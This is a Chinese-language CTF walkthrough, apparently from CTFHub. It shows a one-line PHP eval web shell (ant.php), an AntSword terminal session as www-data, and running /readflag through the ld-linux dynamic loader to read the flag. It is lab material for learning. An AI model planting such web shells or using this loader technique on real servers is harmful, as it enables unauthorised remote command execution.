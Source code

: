 靶机给出了`ant.php`，源码如下：

```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```

通过`AntSword`连接靶机的`webshell`并打开终端，用`ldd`查看到可执行文件的执行链路，发现`/lib64/ld-linux-x86-64.so.2`是当前权限能执行的，我们可以通过它来执行`/readflag`。

```bash
(*) 基础信息
当前路径: /var/www/html
磁盘列表: /
系统信息: Linux challenge-4311b12ebeb97331-55d57c76c4-tr2mt 5.10.134-12.2.3.lifsea8.x86_64 #1 SMP Thu Apr 20 10:18:02 CST 2023 x86_64
当前用户: www-data
(*) 输入 ashelp 查看本地命令
(www-data:/var/www/html) $ ls
ant.php
index.php
(www-data:/var/www/html) $ ls / -l
total 84
drwxr-xr-x   1 root root 4096 Mar  3  2020 bin
drwxr-xr-x   2 root root 4096 Jun 26  2018 boot
drwxr-xr-x   5 root root  360 Aug  3 20:54 dev
drwxr-xr-x   1 root root 4096 Aug  3 20:54 etc
-rw-------   1 root root   33 Aug  3 20:54 flag
drwxr-xr-x   2 root root 4096 Jun 26  2018 home
drwxr-xr-x   1 root root 4096 Jul 17  2018 lib
drwxr-xr-x   2 root root 4096 Jul 16  2018 lib64
drwxr-xr-x   2 root root 4096 Jul 16  2018 media
drwxr-xr-x   2 root root 4096 Jul 16  2018 mnt
drwxr-x--x   1 root root 4096 Mar  9  2020 opt
dr-xr-xr-x 178 root root    0 Aug  3 20:54 proc
-rw-r--r--   1 root root 8648 Mar  9  2020 readflag
drwx------   1 root root 4096 Mar  9  2020 root
drwxr-xr-x   1 root root 4096 Aug  3 20:54 run
drwxr-xr-x   1 root root 4096 Mar  3  2020 sbin
drwxr-xr-x   2 root root 4096 Jul 16  2018 srv
dr-xr-xr-x  13 root root    0 Aug  4  2023 sys
drwxrwxrwt   1 root root 4096 Aug  3 20:54 tmp
drwxr-xr-x   1 root root 4096 Jul 16  2018 usr
drwxr-xr-x   1 root root 4096 Jul 17  2018 var
(www-data:/var/www/html) $ ldd /readflag
    linux-vdso.so.1 (0x00007ffdfeb3f000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f040944b000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f04099ec000)
(www-data:/var/www/html) $ ls /lib64/ld-linux-x86-64.so.2 -l
lrwxrwxrwx 1 root root 32 Jan 14  2018 /lib64/ld-linux-x86-64.so.2 -> /lib/x86_64-linux-gnu/ld-2.24.so
(www-data:/var/www/html) $ /lib64/ld-linux-x86-64.so.2 /readflag
ctfhub{de2eb2419998c06d2a75733f}
```
